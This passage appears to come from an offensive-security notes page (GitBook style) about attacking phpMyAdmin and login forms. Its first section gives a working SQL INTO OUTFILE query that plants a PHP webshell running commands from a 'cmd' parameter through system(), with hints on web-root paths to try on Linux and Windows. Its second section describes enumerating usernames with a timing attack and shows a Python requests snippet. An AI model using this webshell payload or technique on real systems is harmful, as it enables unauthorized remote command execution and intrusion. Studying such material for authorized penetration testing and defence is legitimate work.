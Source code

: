 {% tab title="Webshell" %}
| [https://www.netspi.com/blog/technical/network-penetration-testing/linux-hacking-case-studies-part-3-phpmyadmin/](https://www.netspi.com/blog/technical/network-penetration-testing/linux-hacking-case-studies-part-3-phpmyadmin/) |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |

After logging in and with the privileges to write files, we go to **SQL** to execute this query:

```sql
SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\" VALUE=\"Send\"></FORM><pre><?php if($_GET['cmd']) {system($_GET[\'cmd\']);} ?> </pre></BODY></HTML>"
INTO OUTFILE '/var/www/phpMyAdmin/cmd.php'
```

{% hint style="info" %}
TRY PATHS SUCH AS /var/www/html, /var/www/phpmyadmin...

On Windows, try something like`'C:\\xampp\\phpmyadmin\\cmd.php'`
{% endhint %}

Now we visit the webpage to have a webshell:

![](<../../.gitbook/assets/image (84).png>)
{% endtab %}
{% endtabs %}

## Login form - timing attack to enumerate usernames

In case an invalid username takes more/less than time than a valid username, we can enumerate usernames using a timing attack.

With Dev Tools we can see method request, path and parameters:

![](<../../.gitbook/assets/image (59).png>)

In Python, we can use this code and the Requests library to send this request as follows:

```
creds = {"username":username,"password":"invalidPassword!"}
response = r.post(URL,json=creds)
```
